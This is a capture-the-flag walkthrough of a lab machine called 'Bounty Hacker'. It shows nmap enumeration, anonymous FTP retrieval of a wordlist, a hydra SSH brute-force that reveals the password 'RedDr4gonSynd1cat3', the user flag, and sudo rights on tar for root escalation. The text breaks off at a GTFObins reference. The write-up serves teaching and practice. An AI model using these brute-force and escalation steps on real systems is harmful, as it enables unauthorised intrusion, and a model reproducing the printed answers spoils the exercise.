### Bounty Hacker

#### Living up to the title.

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

Deploy the machine.

Find open ports on the machine

Who wrote the task list?
- lin

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Bounty_Hacker]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.110.227
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-19 05:15 EDT
Nmap scan report for 10.10.110.227
Host is up (0.61s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.73.167
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.25 seconds

```

Upon checking the ftp server, we have listed 2 files below:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Bounty_Hacker]
└─$ ftp 10.10.110.227
Connected to 10.10.110.227.
220 (vsFTPd 3.0.3)
Name (10.10.110.227:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32186|)
ftp: Can't connect to `10.10.110.227:32186': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*************************************************************************|    68      477.74 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.11 KiB/s)
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*************************************************************************|   418       10.39 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (0.65 KiB/s)
ftp>
```

On task.txt, we can see the user who wrote the file:

![[Pasted image 20220819053322.png]]

On locks.txt, we can also see that it is a wordlist for potential bruteforce attack.

Webpage at port 80:

![[Pasted image 20220819053420.png]]

After enumerating those things, we can now proceed with brutefoce `lin` using hydra and the locks.txt wordlist:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Bounty_Hacker]
└─$ hydra -l lin -P ~/ken/MoonShine/CTF/Bounty_Hacker/locks.txt 10.10.110.227 ssh -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-19 05:27:00
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.110.227:22/
[22][ssh] host: 10.10.110.227   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-19 05:27:17
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/Bounty_Hacker]
└─$ 

```


What is the user's password:
- RedDr4gonSynd1cat3

Login to lin using ssh to get the user.txt flag:

```

┌──(kali㉿kali)-[~]
└─$ ssh lin@10.10.110.227
The authenticity of host '10.10.110.227 (10.10.110.227)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.110.227' (ED25519) to the list of known hosts.
lin@10.10.110.227's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}


```

lastly, upon checking, we can see that user lin has privileges for root using the /bin/tar below:

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:~/Desktop$
```

Looking at GTFObins documentation, we can see that 


